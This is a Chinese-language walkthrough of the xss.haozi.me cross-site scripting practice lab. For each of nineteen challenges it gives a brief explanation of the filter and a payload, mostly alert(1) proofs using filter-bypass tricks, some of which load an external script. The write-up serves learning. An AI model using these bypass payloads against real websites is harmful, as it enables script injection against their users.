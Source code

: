 简单的XSS弹窗练习，通过输入使弹窗显示“1”即可。  
URL:https://xss.haozi.me/  

# 0x00
思路：无任何过滤，直接通过alert弹窗，script标签闭合。  
payload:

```
<script>alert(1)</script>
```

# 0x01
思路：无任何过滤，通过textarea标签包含输入内容，所以先闭合textarea标签即可。  
payload:

```
</textarea><script>alert(1)</script>
```

# 0x02
思路：将输入内容包含到了value值中，所以先闭合value值和input标签即可。  
payload:

```
"><script>alert(1)</script>
```

# 0x03
思路：服务器端将“(”和“)”过滤，无法直接通过alert(1)实现，通过反括号“`”即可。  
payload:

```
<script>alert`1`</script>
```

# 0x04
思路：服务器端将“(”、“)”和“`”过滤，此时考虑将括号转义，通过<svg>标签执行html转义字符。  
payload:

```
<svg><script>alert&#x28;1&#x29;</script>
```

# 0x05
思路：服务器端将“-->”过滤，“<\!--”可以通过“-->”和“--!>”两种方式闭合。  
payload:

```
--!><script>alert(1)</script>
```

# 0x06
思路：服务器端将以auto、on开头，=为结尾的属性过滤，通过换行绕过过滤。  
payload:

```
type="image" src onerror
="alert(1)"
```

# 0x07
思路：服务器端将<>内的内容过滤，通过少输入一个>绕过，不影响运行。 
payload:

```
<body onload="alert(1)"
```


# 0x08
思路：服务器端将<>内的内容过滤，通过换行绕过即可。  
payload:

```
</style
><script>alert(1)</script>
```

# 0x09
思路：根据输入要求先输入https://www.segmentfault.com进行匹配，然后闭合script标签即可。  
payload:

```
https://www.segmentfault.com"></script><script>alert(1)</script>
```

# 0x0A
思路：服务器端已经对一些符号进行了过滤，根据输入要求先输入https://www.segmentfault.com进行匹配，然后通过网址运行js脚本即可。  
payload:

```
https://www.segmentfault.com.haozi.me/j.js
```

# 0x0B
思路：服务器端将输入字符串全部转成了大写，但html标签和域名不区分大小写，通过网址运行js脚本即可。
payload:

```
<script src="https://www.segmentfault.com.haozi.me/j.js"></script>
```

# 0x0C
思路：服务器端将输入字符串全部转成了大写，同时对script字符进行了一次过滤，通过双写script在过滤一遍后保留其中一个即可。  
payload:

```
<scscriptript src="https://www.segmentfault.com.haozi.me/j.js"></scrscriptipt>
```

# 0x0D
思路：输入内容包含在script标签的注释中，通过换行绕开注释，在结尾输入-->注释掉后括号。  
payload:

```

alert(1)
-->
```

# 0x0E
思路：输入字符<后的字母都会被转义，通过古英文中s的写法“ſ”可以绕过基于ascii码判断的字母转义，并通过外部url绕过字符串大写转义。  
payload:

```
<ſcript src="https://www.segmentfault.com.haozi.me/j.js"></script>
```

# 0x0F
思路：表面上对输入的&,',",<,>,\和/字符进行了html转义，但实际上在解析过程中html解析先于js解析，转义工作无意义。先闭合引号和括号，再注释掉后面的内容即可。  
payload:

```
');alert(1)//
```

# 0x10
思路：无任何过滤。  
payload:

```
alert(1)
```

# 0x11
思路：虽然"被转义为\"，但输入一个后双引号正好可以把\闭合到引号中，再闭合括号，注释掉后面内容即可。  
payload:

```
"),alert(1)//
```

# 0x12
思路：闭合script标签重新构造即可。  
payload:

```
</script>
<script>alert(1)</script>
```

# 总结
整体而言题目偏简单，难度并非逐题提高，而且源码已经放出可以直接分析，可供新手练习，熟悉JavaScript标签。未来可以尝试每道题提出更多解法。